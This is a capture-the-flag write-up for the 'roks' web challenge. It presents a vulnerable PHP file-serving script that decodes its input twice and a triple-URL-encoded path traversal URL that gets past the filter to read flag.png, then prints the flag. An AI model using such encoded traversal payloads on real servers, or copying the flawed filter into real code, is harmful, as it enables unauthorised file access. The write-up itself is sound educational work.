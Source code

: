 # roks
> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

## About the Challenge
We have been given a source code (You can download the source code [here](roks.zip)) and we got the website too. Here is the preview of the website

![preview](images/preview.png)

There is one button which will generate rock images by hitting `/file.php?image` endpoint. And as you can see in the network tab, `image7` is a file name. Which is we can predict this chall was about path traversal vulnerability

## How to Solve?
Let's check the source code! There are 2 files, `index.php` and `file.php`. Here is the content of `file.php`

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

This PHP script takes a file name from the parameter called `file`, checks if there is `.` or `/` in the value of the parameter, and serves the corresponding image file with the correct MIME content type. If it detects an unsafe file name, it serves a default image instead. And as you can see, this code was vulnerable to path traversal, but this code using `urldecode()` PHP function twice. That's why to do path traversal, we need to URL encode our payload three times

```
http://roks.chal.imaginaryctf.org/file.php?file=%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566flag%25252Epng
```

Open the URL in your browser and then you will get a flag in the form of an image

![flag](images/flag.png)

```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```